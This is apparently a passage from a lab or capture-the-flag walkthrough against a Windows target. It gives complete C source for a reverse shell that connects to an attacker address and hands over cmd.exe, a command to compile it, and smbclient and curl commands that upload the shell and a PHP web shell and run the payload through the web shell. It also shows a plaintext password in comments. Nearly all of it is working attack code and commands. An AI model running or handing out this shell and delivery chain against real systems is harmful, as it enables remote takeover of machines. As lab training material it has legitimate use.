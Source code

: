 ```c
#define WIN32_LEAN_AND_MEAN

#include <windows.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

#define LHOST "10.10.14.25"
#define LPORT 6969

void main(void) {
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(LHOST);
  sa.sin_port = htons(LPORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}
```

Compile the shell:

```bash
i686-w64-mingw32-gcc bubba.c -o bubba.exe -s -lws2_32
```

Then re-run the download and execute steps:

```bash
smbclient -U tyler \\\\10.10.10.97\\new-site -c 'put bubba.php;quit' # 92g!mA8BGjOirkL%OG*&
curl -s --data-urlencode 'c=cmd.exe /c \\10.10.14.25\BUBBA\bubba.exe' http://10.10.10.97:8808/bubba.php
```

But still no shell? Maybe this is a SMB issue? Upload the shell and execute it directly:

```bash
smbclient -U tyler \\\\10.10.10.97\\new-site -c 'put bubba.php;put bubba.exe;quit' # 92g!mA8BGjOirkL%OG*&
curl -s --data-urlencode 'c=cmd.exe /c bubba.exe' http://10.10.10.97:8808/bubba.php
```
